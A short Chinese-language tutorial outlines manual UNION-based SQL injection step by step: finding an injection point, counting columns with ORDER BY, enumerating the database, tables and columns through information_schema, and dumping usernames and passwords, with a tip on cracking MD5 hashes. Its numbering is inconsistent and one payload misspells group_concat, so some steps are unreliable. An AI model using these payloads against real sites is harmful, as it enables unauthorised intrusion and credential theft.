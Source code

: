注入流程:

1. 打开网站,找到一个注入点

   注入点:前端提交参数的点,提交的参数很可能会拼接到后端的查询语句中

2. 猜测后端查询语句:(同时需要在url请求的参数中加入不同的结束符号来找出结束符,找到报错点)

   ```mysql
   select * from t_xx where c_xx = xxx
   ```

   注:如果加入一个结束符后出现报错,则代表参数的结束符最少包含该字符,也可能还有别的字符

4. 通过order by num的方式让系统自己报错,慢慢尝试从而找到数据库的准确列数

4. 判断数据库版本是否大于4,以便后面使用information_schema库

5. 给原有的url中的字段指定一个不存在的值,使其查不到内容,从而显示联合查询后面的内容

6. 判断显示位置:

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,3,4,...  #有多少个order by 找出多少个字段,union后就要写多少个字段
   ```

   

7. 联合查询字段中带上database()查看当前网站所使用的数据库名

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,database(),3,4,5,...
   ```

8. 在information_schema库中根据数据库名查表名

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,table_name3,4,5... from information_schema.tables where table_schema = "第6步查到的库名"	#只能查到并显示一张表
   
   #要想显示所有表,需要使用group_concat()函数
   select * from t_xx where c_xx = -1 union select 1,2,group_concat(table_name),4,5... from information_schema.tables where table_schema = "第6步查到的库名"
   ```

   

9. 查询关键表的字段

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema="库名" and table_name="7步查到的表名" 
   ```

   

   

10. 查询关键字段(如username,password等)的记录,得到用户名和密码.(密码有可能是被加密过的,如果是md5加密,可以用cmd5尝试解密)

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,group_caoncat(username,"=",password),4,5 from 表名
   ```
